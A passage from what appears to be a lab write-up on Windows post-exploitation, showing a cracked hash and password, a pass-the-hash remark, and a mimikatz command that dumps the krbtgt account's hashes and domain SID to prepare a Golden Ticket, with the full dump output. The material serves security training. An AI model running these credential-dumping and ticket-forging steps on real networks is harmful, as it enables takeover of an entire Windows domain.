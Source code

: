 ```bash
2777b7fec870e04dda00cd7260f7bee6:P@$$W0rd
```

> **Note**: Cracking these hashes are note necessary if we can perform a Pass-The-Hash attack. 

![](https://amirr0r.github.io/assets/img/thm/windows/windows-post-exploitation-basics/dumping-hashes-answers.png)

___

### Golden Ticket 

We will first dump the hash and sid of the **krbtgt** user then create a golden ticket and use that golden ticket to open up a new command prompt allowing us to access any machine on the network.

#### Dump hash and sid of krbtgt

- `lsadump::lsa /inject /name:krbtgt` &rarr; dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket:

```cmd
mimikatz # lsadump::lsa /inject /name:krbtgt 
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166 
                                                              
RID  : 000001f6 (502)                                         
User : krbtgt                                                 
                                                              
 * Primary                                                    
    NTLM : 5508500012cc005cf7082a9a89ebdfdf 
    LM   :
  Hash NTLM: 5508500012cc005cf7082a9a89ebdfdf
    ntlm- 0: 5508500012cc005cf7082a9a89ebdfdf
    lm  - 0: 372f405db05d3cafd27f8e6a4a097b2c

 * WDigest
    01  49a8de3b6c7ae1ddf36aa868e68cd9ea
    02  7902703149b131c57e5253fd9ea710d0
    03  71288a6388fb28088a434d3705cc6f2a
    04  49a8de3b6c7ae1ddf36aa868e68cd9ea
    05  7902703149b131c57e5253fd9ea710d0
    06  df5ad3cc1ff643663d85dabc81432a81
    07  49a8de3b6c7ae1ddf36aa868e68cd9ea 
    08  a489809bd0f8e525f450fac01ea2054b
    09  19e54fd00868c3b0b35b5e0926934c99
    10  4462ea84c5537142029ea1b354cd25fa
    11  6773fcbf03fd29e51720f2c5087cb81c
    12  19e54fd00868c3b0b35b5e0926934c99
    13  52902abbeec1f1d3b46a7bd5adab3b57
    14  6773fcbf03fd29e51720f2c5087cb81c
    15  8f2593c344922717d05d537487a1336d
    16  49c009813995b032cc1f1a181eaadee4
    17  8552f561e937ad7c13a0dca4e9b0b25a
    18  cc18f1d9a1f4d28b58a063f69fa54f27 
    19  12ae8a0629634a31aa63d6f422a14953
    20  b6392b0471c53dd2379dcc570816ba10
    21  7ab113cb39aa4be369710f6926b68094
    22  7ab113cb39aa4be369710f6926b68094
    23  e38f8bc728b21b85602231dba189c5be
    24  4700657dde6382cd7b990fb042b00f9e
    25  8f46d9db219cbd64fb61ba4fdb1c9ba7
    26  36b6a21f031bf361ce38d4d8ad39ee0f
    27  e69385ee50f9d3e105f50c61c53e718e
    28  ca006400aefe845da46b137b5b50f371
    29  15a607251e3a2973a843e09c008c32e3 

 * Kerberos
```